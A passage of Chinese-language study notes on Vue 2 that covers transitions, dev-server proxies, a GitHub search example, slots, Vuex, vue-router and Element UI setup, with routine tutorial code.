1. 写法：

   - 准备好样式：

     - 元素进入的样式：

       （1）v-enter：进入的起点

       （2）v-enter-active：进入过程中

       （3）v-enter-to：进入的终点

     - 元素离开的样式：

       （1）v-leave：离开的起点

       （2）v-leave-active：离开过程中

       （3）v-leave-to：离开的终点

   - 使用```<transition>```包裹要过度的元素，并配置name属性：

     ```vue
     <transition name="hello">
     	<h1 v-show="isShow">你好啊！</h1>
     </transition>
     ```

   - 备注：若有多个元素需要过度，则需要使用：```<transition-group>```，且每个元素都要指定```key```值。

- 关键帧动画

```vue
<template>
  <div>
    <button @click="isShow = !isShow">显示/隐藏</button>
    <transition name="hello" appear>
      <h1 v-show="isShow" class="come">Hello</h1>
    </transition>
  </div>
</template>

<script>
export default {
  name: 'Test',
  data() {
    return {
      isShow: true
    }
  }
}
</script>

<style scoped>
h1 {
  background-color: orange;
}

.hello-enter-active{
  animation: 0.5s slide linear;
}

.hello-leave-active{
  animation: 0.5s slide reverse;
}

@keyframes slide {
  from{
    transform: translateX(-100%);
  }
  to{
    transform: translateX(0px);
  }
}
</style>
```

- 过度

```vue
<template>
  <div>
    <button @click="isShow = !isShow">显示/隐藏</button>
    <transition-group name="hello" appear>
      <h1 v-show="isShow" key="1">Hello</h1>
      <h1 v-show="!isShow" key="2">XDU</h1>
    </transition-group>
  </div>
</template>

<script>
export default {
  name: 'Test',
  data() {
    return {
      isShow: true
    }
  }
}
</script>

<style scoped>
h1 {
  background-color: orange;
}

/* 进入的起点、离开的终点 */
.hello-enter, .hello-leave-to {
  transform: translateX(-100%);
}

.hello-enter-active, .hello-leave-active {
  transition: 0.5s linear;
}
/* 进入的终点、离开的起点 */
.hello-enter-to, .hello-leave {
  transform: translateX(0);
}

</style>
```

- 第三方动画

[Animate.css](https://animate.style/)

```shell
$ npm install animate.css
```

```vue
<template>
  <div>
    <button @click="isShow = !isShow">显示/隐藏</button>
    <transition-group
        appear
        name="animate__animated animate__bounce"
        enter-active-class="animate__heartBeat"
        leave-active-class="animate__fadeOutLeft"
    >
      <h1 v-show="isShow" key="1">Hello</h1>
      <h1 v-show="!isShow" key="2">XDU</h1>
    </transition-group>
  </div>
</template>

<script>
import 'animate.css'
export default {
  name: 'Test',
  data() {
    return {
      isShow: true
    }
  }
}
</script>

<style scoped>
h1 {
  background-color: orange;
}
</style>
```


## 四、Vue-Ajax

### 4.1 vue脚手架配置代理

#### 方法一

在vue.config.js中添加如下配置：

```js
devServer:{
  proxy:"http://localhost:5000"
}
```

说明：

1. 优点：配置简单，请求资源时直接发给前端（8080）即可。
2. 缺点：不能配置多个代理，不能灵活的控制请求是否走代理。
3. 工作方式：若按照上述配置代理，当请求了前端不存在的资源时，那么该请求会转发给服务器 （优先匹配前端资源）

#### 方法二

编写vue.config.js配置具体代理规则：

```js
module.exports = {
	devServer: {
      proxy: {
      '/api1': {// 匹配所有以 '/api1'开头的请求路径
        target: 'http://localhost:5000',// 代理目标的基础路径
        changeOrigin: true,
        pathRewrite: {'^/api1': ''}
      },
      '/api2': {// 匹配所有以 '/api2'开头的请求路径
        target: 'http://localhost:5001',// 代理目标的基础路径
        changeOrigin: true,
        pathRewrite: {'^/api2': ''}
      }
    }
  }
}
/*
   changeOrigin设置为true时，服务器收到的请求头中的host为：localhost:5000
   changeOrigin设置为false时，服务器收到的请求头中的host为：localhost:8080
   changeOrigin默认值为true
*/
```

说明：

1. 优点：可以配置多个代理，且可以灵活的控制请求是否走代理。
2. 缺点：配置略微繁琐，请求资源时必须加前缀。

#### github搜素案例

- `App.vue`

```vue
<template>
  <div class="container">
    <Search/>
    <List/>
  </div>
</template>

<script>

import Search from '@/components/Search'
import List from '@/components/List'

export default {
  name: 'App',
  components: { List, Search },
}

</script>
```

- `Search.vue`

```vue
<template>
  <section class="jumbotron">
    <h3 class="jumbotron-heading">Search Github Users</h3>
    <div>
      <input type="text" placeholder="enter the name you search" v-model="keyWord"/>&nbsp;
      <button @click="searchUsers">Search</button>
    </div>
  </section>
</template>

<script>
import axios from 'axios'

export default {
  name: 'Search',
  data () {
    return {
      keyWord: '',
    }
  },
  methods: {
    searchUsers () {
      // 请求前更新List的数据
      this.$bus.$emit('updateListData', { isFirst: false, isLoading: true, errMsg: '', users: [] })
      axios.get(`https://api.github.com/search/users?q=${this.keyWord}`).then(
          response => {
            // 请求成功后更新List的数据
            this.$bus.$emit('updateListData', { isLoading: false, errMsg: '', users: response.data.item })
          },
          error => {
            // 请求后更新List的数据
            this.$bus.$emit('updateListData', { isLoading: false, errMsg: error.message, users: [] })
          },
      )
    },
  },
}
</script>

<style scoped>

</style>
```

- `List.vue`

```vue
<template>
  <div class="row">
    <!-- 展示用户列表 -->
    <div class="card" v-show="info.users.length" v-for="user in info.users" :key="user.login">
      <a :href="user.html_url" target="_blank">
        
      </a>
      <p class="card-text">{{ user.login }}</p>
    </div>

    <!-- 展示欢迎词 -->
    <h1 v-show="info.isFirst">欢迎使用</h1>
    <!-- 展示加载中 -->
    <h1 v-show="info.isLoading">加载中……</h1>
    <!-- 展示错误信息 -->
    <h1 v-show="info.errMsg">{{ info.errMsg }}</h1>

  </div>
</template>

<script>
export default {
  name: 'List',
  data() {
    return {
      info: {
        isFirst: true,
        isLoading: false,
        errMsg: '',
        users: []
      }
    }
  },
  mounted () {
    this.$bus.$on('updateListData', (dataObj) => {
      // this.info = dataObj
      this.info = {...this.info, ...dataObj}
    })
  }
}
</script>

<style scoped>
.album {
  min-height: 50rem; /* Can be removed; just added for demo purposes */
  padding-top: 3rem;
  padding-bottom: 3rem;
  background-color: #f7f7f7;
}

.card {
  float: left;
  width: 33.333%;
  padding: .75rem;
  margin-bottom: 2rem;
  border: 1px solid #efefef;
  text-align: center;
}

.card > img {
  margin-bottom: .75rem;
  border-radius: 100px;
}

.card-text {
  font-size: 85%;
}
</style>
```

### 4.2 插槽

1. 作用：让父组件可以向子组件指定位置插入html结构，也是一种组件间通信的方式，适用于 <strong style="color:red">父组件 ===> 子组件</strong> 。

2. 分类：默认插槽、具名插槽、作用域插槽

3. 使用方式：

   - 默认插槽：

     ```vue
     父组件中：
             <Category>
                <div>html结构1</div>
             </Category>
     子组件中：
             <template>
                 <div>
                    <!-- 定义插槽 -->
                    <slot>插槽默认内容...</slot>
                 </div>
             </template>
     ```

   - 具名插槽：

     ```vue
     父组件中：
             <Category>
                 <template slot="center">
                   <div>html结构1</div>
                 </template>
     
                 <template v-slot:footer>
                    <div>html结构2</div>
                 </template>
             </Category>
     子组件中：
             <template>
                 <div>
                    <!-- 定义插槽 -->
                    <slot name="center">插槽默认内容...</slot>
                    <slot name="footer">插槽默认内容...</slot>
                 </div>
             </template>
     ```

   - 作用域插槽：

     - 理解：<span style="color:red">数据在组件的自身，但根据数据生成的结构需要组件的使用者来决定。</span>（games数据在Category组件中，但使用数据所遍历出来的结构由App组件决定）

     - 具体编码：

       ```vue
       父组件中：
       		<Category>
       			<template scope="scopeData">
       				<!-- 生成的是ul列表 -->
       				<ul>
       					<li v-for="g in scopeData.games" :key="g">{{g}}</li>
       				</ul>
       			</template>
       		</Category>
       
       		<Category>
       			<template slot-scope="scopeData">
       				<!-- 生成的是h4标题 -->
       				<h4 v-for="g in scopeData.games" :key="g">{{g}}</h4>
       			</template>
       		</Category>
       子组件中：
               <template>
                   <div>
                       <slot :games="games"></slot>
                   </div>
               </template>
       		
               <script>
                   export default {
                       name:'Category',
                       props:['title'],
                       //数据在子组件自身
                       data() {
                           return {
                               games:['红色警戒','穿越火线','劲舞团','超级玛丽']
                           }
                       },
                   }
               </script>
       ```

`v-slot:`组件名（默认default）`=“`作用域`”`

## 五、Vuex

### 5.1 理解vuex

#### 概念

​	在Vue中实现集中式状态（数据）管理的一个Vue插件，对vue应用中多个组件的共享状态进行集中式的管理（读/写），也是一种组件间通信的方式，且适用于任意组件间通信。

[Github 地址](https://github.com/vuejs/vuex)

#### 何时使用？

​	多个组件需要共享数据时

#### 工作原理图


### 5.2 搭建vuex环境

1. 安装Vuex：`npm i vuex`

   > Vue 2使用vuex@3

2. 创建文件：```src/store/index.js```

```js
//引入Vue核心库
import Vue from 'vue'
//引入Vuex
import Vuex from 'vuex'
//应用Vuex插件
Vue.use(Vuex)

//准备actions对象——响应组件中用户的动作
const actions = {}
//准备mutations对象——修改state中的数据
const mutations = {}
//准备state对象——保存具体的数据
const state = {}

//创建并暴露store
export default new Vuex.Store({
	actions,
	mutations,
	state
})
```

3. 在```main.js```中创建vm时传入```store```配置项

```js
......
//引入store
import store from './store'
......

//创建vm
new Vue({
	el:'#app',
	render: h => h(App),
	store
})
```

###    5.3 基本使用

1. 初始化数据、配置```actions```、配置```mutations```，操作文件```store.js```

   ```js
   //引入Vue核心库
   import Vue from 'vue'
   //引入Vuex
   import Vuex from 'vuex'
   //引用Vuex
   Vue.use(Vuex)
   
   const actions = {
       //响应组件中加的动作
   	jia(context,value){
   		// console.log('actions中的jia被调用了',miniStore,value)
   		context.commit('JIA',value)
   	},
   }
   
   const mutations = {
       //执行加
   	JIA(state,value){
   		// console.log('mutations中的JIA被调用了',state,value)
   		state.sum += value
   	}
   }
   
   //初始化数据
   const state = {
      sum:0
   }
   
   //创建并暴露store
   export default new Vuex.Store({
   	actions,
   	mutations,
   	state,
   })
   ```

2. 组件中读取vuex中的数据：```$store.state.sum```

3. 组件中修改vuex中的数据：```$store.dispatch('action中的方法名',数据)``` 或 ```$store.commit('mutations中的方法名',数据)```

   >  备注：若没有网络请求或其他业务逻辑，组件中也可以越过actions，即不写```dispatch```，直接编写```commit```

#### getters的使用

1. 概念：当state中的数据需要经过加工后再使用时，可以使用getters加工。

2. 在```store.js```中追加```getters```配置

   ```js
   ......
   
   const getters = {
   	bigSum(state){
   		return state.sum * 10
   	}
   }
   
   //创建并暴露store
   export default new Vuex.Store({
   	......
   	getters
   })
   ```

3. 组件中读取数据：```$store.getters.bigSum```

#### 四个map方法的使用

1. <strong>mapState方法：</strong>用于帮助我们映射```state```中的数据为计算属性

   ```js
   computed: {
       //借助mapState生成计算属性：sum、school、subject（对象写法）
        ...mapState({sum:'sum',school:'school',subject:'subject'}),
            
       //借助mapState生成计算属性：sum、school、subject（数组写法）
       ...mapState(['sum','school','subject']),
   },
   ```

2. <strong>mapGetters方法：</strong>用于帮助我们映射```getters```中的数据为计算属性

   ```js
   computed: {
       //借助mapGetters生成计算属性：bigSum（对象写法）
       ...mapGetters({bigSum:'bigSum'}),
   
       //借助mapGetters生成计算属性：bigSum（数组写法）
       ...mapGetters(['bigSum'])
   },
   ```

3. <strong>mapActions方法：</strong>用于帮助我们生成与```actions```对话的方法，即：包含```$store.dispatch(xxx)```的函数

   ```js
   methods:{
       //靠mapActions生成：incrementOdd、incrementWait（对象形式）
       ...mapActions({incrementOdd:'jiaOdd',incrementWait:'jiaWait'})
   
       //靠mapActions生成：incrementOdd、incrementWait（数组形式）
       ...mapActions(['jiaOdd','jiaWait'])
   }
   ```

4. <strong>mapMutations方法：</strong>用于帮助我们生成与```mutations```对话的方法，即：包含```$store.commit(xxx)```的函数

   ```js
   methods:{
       //靠mapActions生成：increment、decrement（对象形式）
       ...mapMutations({increment:'JIA',decrement:'JIAN'}),
       
       //靠mapMutations生成：JIA、JIAN（对象形式）
       ...mapMutations(['JIA','JIAN']),
   }
   ```

> 备注：mapActions与mapMutations使用时，若需要传递参数需要：在模板中绑定事件时传递好参数，否则参数是事件对象。

#### 模块化+命名空间

1. 目的：让代码更好维护，让多种数据分类更加明确。

2. 修改```store.js```

   ```javascript
   const countAbout = {
     namespaced:true,//开启命名空间
     state:{x:1},
     mutations: { ... },
     actions: { ... },
     getters: {
       bigSum(state){
          return state.sum * 10
       }
     }
   }
   
   const personAbout = {
     namespaced:true,//开启命名空间
     state:{ ... },
     mutations: { ... },
     actions: { ... }
   }
   
   const store = new Vuex.Store({
     modules: {
       countAbout,
       personAbout
     }
   })
   ```

3. 开启命名空间后，组件中读取state数据：

   ```js
   //方式一：自己直接读取
   this.$store.state.personAbout.list
   //方式二：借助mapState读取：
   ...mapState('countAbout',['sum','school','subject']),
   ```

4. 开启命名空间后，组件中读取getters数据：

   ```js
   //方式一：自己直接读取
   this.$store.getters['personAbout/firstPersonName']
   //方式二：借助mapGetters读取：
   ...mapGetters('countAbout',['bigSum'])
   ```

5. 开启命名空间后，组件中调用dispatch

   ```js
   //方式一：自己直接dispatch
   this.$store.dispatch('personAbout/addPersonWang',person)
   //方式二：借助mapActions：
   ...mapActions('countAbout',{incrementOdd:'jiaOdd',incrementWait:'jiaWait'})
   ```

6. 开启命名空间后，组件中调用commit

   ```js
   //方式一：自己直接commit
   this.$store.commit('personAbout/ADD_PERSON',person)
   //方式二：借助mapMutations：
   ...mapMutations('countAbout',{increment:'JIA',decrement:'JIAN'}),
   ```

 ## 六、路由

### 6.1 概念

#### 路由

1. 理解： 一个路由（route）就是一组映射关系（key - value），多个路由需要路由器（router）进行管理。
2. 前端路由：key是路径，value是组件。
   - 工作过程：当浏览器的路径改变时, 对应的组件就会显示。

3. 后端路由：value 是function, 用于处理客户端提交的请求。
   - 工作过程：服务器接收到一个请求时, 根据请求路径找到匹配的函来处理请求, 返回响应数据。

#### vue-router

vue 的一个插件库，专门用来实现SPA 应用

#### SPA 应用

1. 单页Web 应用（single page web application，SPA）。

2. 整个应用只有一个完整的页面。
3. 点击页面中的导航链接不会刷新页面，只会做页面的局部更新。
4. 数据需要通过ajax 请求获取。

### 6.2 基本使用

1. 安装vue-router，命令：```npm i vue-router```

   > Vue 2 使用 vue-router@3

2. 应用插件：```Vue.use(VueRouter)```

3. 编写router配置项：

   `src/router/index.js`

   ```js
   //引入VueRouter
   import VueRouter from 'vue-router'
   //引入Luyou 组件
   import About from '../components/About'
   import Home from '../components/Home'
   
   //创建router实例对象，去管理一组一组的路由规则
   const router = new VueRouter({
   	routes:[
   		{
   			path:'/about',
   			component:About
   		},
   		{
   			path:'/home',
   			component:Home
   		}
   	]
   })
   
   //暴露router
   export default router
   ```

4. 实现切换（active-class可配置高亮样式）

   ```vue
   <router-link active-class="active" to="/about">About</router-link>
   ```

5. 指定展示位置

   ```vue
   <router-view></router-view>
   ```

#### 几个注意点

1. 路由组件通常存放在```pages```文件夹，一般组件通常存放在```components```文件夹。
2. 通过切换，“隐藏”了的路由组件，默认是被销毁掉的，需要的时候再去挂载。
3. 每个组件都有自己的```$route```属性，里面存储着自己的路由信息。
4. 整个应用只有一个router，可以通过组件的```$router```属性获取到。

### 6.3 多级路由（多级路由）

1. 配置路由规则，使用children配置项：

   ```js
   routes:[
   	{
   		path:'/about',
   		component:About,
   	},
   	{
   		path:'/home',
   		component:Home,
   		children:[ //通过children配置子级路由
   			{
   				path:'news', //此处一定不要写：/news
   				component:News
   			},
   			{
   				path:'message',//此处一定不要写：/message
   				component:Message
   			}
   		]
   	}
   ]
   ```

2. 跳转（要写完整路径）：

   ```vue
   <router-link to="/home/news">News</router-link>
   ```

### 6.4 路由传参

#### 路由的query参数

1. 传递参数

   ```vue
   <!-- 跳转并携带query参数，to的字符串写法 -->
   <router-link :to="/home/message/detail?id=666&title=你好">跳转</router-link>
   				
   <!-- 跳转并携带query参数，to的对象写法 -->
   <router-link 
   	:to="{
   		path:'/home/message/detail',
   		query:{
   		   id:666,
               title:'你好'
   		}
   	}"
   >跳转</router-link>
   ```

2. 接收参数：

   ```js
   $route.query.id
   $route.query.title
   ```

#### 命名路由

- 作用：可以简化路由的跳转。

- 如何使用

  1. 给路由命名：

     ```js
     {
     	path:'/demo',
     	component:Demo,
     	children:[
     		{
     			path:'test',
     			component:Test,
     			children:[
     				{
                           name:'hello' //给路由命名
     					path:'welcome',
     					component:Hello,
     				}
     			]
     		}
     	]
     }
     ```

  2. 简化跳转：

     ```vue
     <!--简化前，需要写完整的路径 -->
     <router-link to="/demo/test/welcome">跳转</router-link>
     
     <!--简化后，直接通过名字跳转 -->
     <router-link :to="{name:'hello'}">跳转</router-link>
     
     <!--简化写法配合传递参数 -->
     <router-link 
     	:to="{
     		name:'hello',
     		query:{
     		   id:666,
                 title:'你好'
     		}
     	}"
     >跳转</router-link>
     ```

#### 路由的params参数

1. 配置路由，声明接收params参数

   ```js
   {
   	path:'/home',
   	component:Home,
   	children:[
   		{
   			path:'news',
   			component:News
   		},
   		{
   			component:Message,
   			children:[
   				{
   					name:'xiangqing',
   					path:'detail/:id/:title', //使用占位符声明接收params参数
   					component:Detail
   				}
   			]
   		}
   	]
   }
   ```

   > `detail/:id?`：params 参数后添加 “?” ，表示该参数可传可不传
   >
   > 传递空串时使用：`‘’ || u`

2. 传递参数

   ```vue
   <!-- 跳转并携带params参数，to的字符串写法 -->
   <router-link :to="/home/message/detail/666/你好">跳转</router-link>
   				
   <!-- 跳转并携带params参数，to的对象写法 -->
   <router-link 
   	:to="{
   		name:'xiangqing',
   		params:{
   		   id:666,
               title:'你好'
   		}
   	}"
   >跳转</router-link>
   ```

   > 特别注意：路由携带params参数时，若使用to的对象写法，则不能使用path配置项，必须使用name配置！

3. 接收参数：

   ```js
   $route.params.id
   $route.params.title
   ```

#### 路由的props配置

作用：让路由组件更方便的收到参数

```js
{
	name:'xiangqing',
	path:'detail/:id',
	component:Detail,

	//第一种写法：props值为对象，该对象中所有的key-value的组合最终都会通过props传给Detail组件
	// props:{a:900}

	//第二种写法：props值为布尔值，布尔值为true，则把路由收到的所有params参数通过props传给Detail组件
	// props:true
	
	//第三种写法：props值为函数，该函数返回的对象中每一组key-value都会通过props传给Detail组件
	props(route){
		return {
			id:route.query.id,
			title:route.query.title
		}
	}
}
```

#### `<router-link>`的replace属性

1. 作用：控制路由跳转时操作浏览器历史记录的模式
2. 浏览器的历史记录有两种写入方式：分别为```push```和```replace```，```push```是追加历史记录，```replace```是替换当前记录。路由跳转时候默认为```push```
3. 如何开启```replace```模式：```<router-link replace .......>News</router-link>```

### 6.5 编程式路由导航

1. 作用：不借助```<router-link> ```实现路由跳转，让路由跳转更加灵活

2. 具体编码：

   ```js
   //$router的两个API
   this.$router.push({
   	name:'xiangqing',
   		params:{
   			id:xxx,
   			title:xxx
   		}
   })
   
   this.$router.replace({
   	name:'xiangqing',
   		params:{
   			id:xxx,
   			title:xxx
   		}
   })
   this.$router.forward() //前进
   this.$router.back() //后退
   this.$router.go() //可前进也可后退
   ```

### 6.6 缓存路由组件

1. 作用：让不展示的路由组件保持挂载，不被销毁。

2. 具体编码：

   - 缓存一个

     ```vue
     <keep-alive include="News"> 
         <router-view></router-view>
     </keep-alive>
     ```

     

   - 缓存多个

     ```vue
     <keep-alive :include="['News', 'Messages']">
       <router-view></router-view>
     </keep-alive>
     ```

### 6.7 两个新的生命周期钩子

1. 作用：路由组件所独有的两个钩子，用于捕获路由组件的激活状态。
2. 具体名字：
   - ```activated```路由组件被激活时触发。
   - ```deactivated```路由组件失活时触发。

### 6.8 路由守卫

1. 作用：对路由进行权限控制

2. 分类：全局守卫、独享守卫、组件内守卫

3. 全局守卫：

   ```js
   //全局前置守卫：初始化时执行、每次路由切换前执行
   router.beforeEach((to,from,next)=>{
   	console.log('beforeEach',to,from)
   	if(to.meta.isAuth){ //判断当前路由是否需要进行权限控制
   		if(localStorage.getItem('school') === 'atguigu'){ //权限控制的具体规则
   			next() //放行
   		}else{
   			alert('暂无权限查看')
   			// next({name:'guanyu'})
   		}
   	}else{
   		next() //放行
   	}
   })
   
   //全局后置守卫：初始化时执行、每次路由切换后执行
   router.afterEach((to,from)=>{
   	console.log('afterEach',to,from)
   	if(to.meta.title){ 
   		document.title = to.meta.title //修改网页的title
   	}else{
   		document.title = 'vue_test'
   	}
   })
   ```

4. 独享守卫：

   ```js
   beforeEnter(to,from,next){
   	console.log('beforeEnter',to,from)
   	if(to.meta.isAuth){ //判断当前路由是否需要进行权限控制
   		if(localStorage.getItem('school') === 'atguigu'){
   			next()
   		}else{
   			alert('暂无权限查看')
   			// next({name:'guanyu'})
   		}
   	}else{
   		next()
   	}
   }
   ```

5. 组件内守卫：

   ```js
   //进入守卫：通过路由规则，进入该组件时被调用
   beforeRouteEnter (to, from, next) {
   },
   //离开守卫：通过路由规则，离开该组件时被调用
   beforeRouteLeave (to, from, next) {
   }
   ```

### 6.9 路由器的两种工作模式

1. 对于一个url来说，什么是hash值？—— #及其后面的内容就是hash值。

2. hash值不会包含在 HTTP 请求中，即：hash值不会带给服务器。

3. hash模式：

   - 地址中永远带着#号，不美观 。
   - 若以后将地址通过第三方手机app分享，若app校验严格，则地址会被标记为不合法。
   - 兼容性较好。

4. history模式：

   - 地址干净，美观 。

   - 兼容性和hash模式相比略差。

   - 应用部署上线时需要后端人员支持，解决刷新页面服务端404的问题。

     > 解决方法（Node,js Express中使用中间件：connect-history-api-fallback）
     >
     > - `npm i connect-history-api-fallback`
     >
     > - ```java
     >   const express = require('express')
     >   
     >   const history = require('connect-history-api-fallback')
     >   
     >   const app = express()
     >   
     >   app.use(history())
     >   
     >   app.use(express.static(__dirname + '/static'))
     >   
     >   app.listen(5005, (err) => {
     >     if (!err) console.log('server on http://localhost:5005')
     >   })
     >   
     >   ```

## 七、Vue UI 组件库

### 7.1 常用组件库

#### 移动端常用UI 组件库

1. Vant https://youzan.github.io/vant
2. Cube UI https://didi.github.io/cube-ui
3. Mint UI http://mint-ui.github.io

#### PC 端常用UI 组件库

1. Element UI https://element.eleme.cn
2. IView UI https://www.iviewui.com

### 7.2 Element UI

### 安装

```shell
npm i element-ui
```

### 使用

完整引入：

`main.js`

```js
// 引入Vue
import Vue from 'vue'
// 引入App
import App from './App'
// 引入 ElementUI 组件库
import ElementUI from 'element-ui';
// 引入 ElementUI 全部样式
import 'element-ui/lib/theme-chalk/index.css';


// 关闭Vue的生产提示
Vue.config.productionTip = false

// 使用 ElementUI
Vue.use(ElementUI);


new Vue({
  el: '#app',
  render: h => h(App),
})

```

按需引入：

借助 [babel-plugin-component](https://github.com/QingWei-Li/babel-plugin-component)，我们可以只引入需要的组件，以达到减小项目体积的目的。

安装 babel-plugin-component：

```bash
npm install babel-plugin-component -D
```

修改 `babel.config.js`

```js
module.exports = {
  presets: [
    '@vue/cli-plugin-babel/preset',
    ["@babel/preset-env", { "modules": false }]
  ],
  plugins: [
    [
      "component",
      {
        "libraryName": "element-ui",
        "styleLibraryName": "theme-chalk"
      }
    ]
  ],
}
```

`main.js`

```js
// 引入Vue
import Vue from 'vue'
// 引入App
import App from './App'

// 按需引入
import { Button, Row, DatePicker } from 'element-ui';

Vue.component(Button.name, Button);
Vue.component(Row.name, Row);
Vue.component(DatePicker.name, DatePicker);

// 关闭Vue的生产提示
Vue.config.productionTip = false

new Vue({
  el: '#app',
  render: h => h(App),
})
```
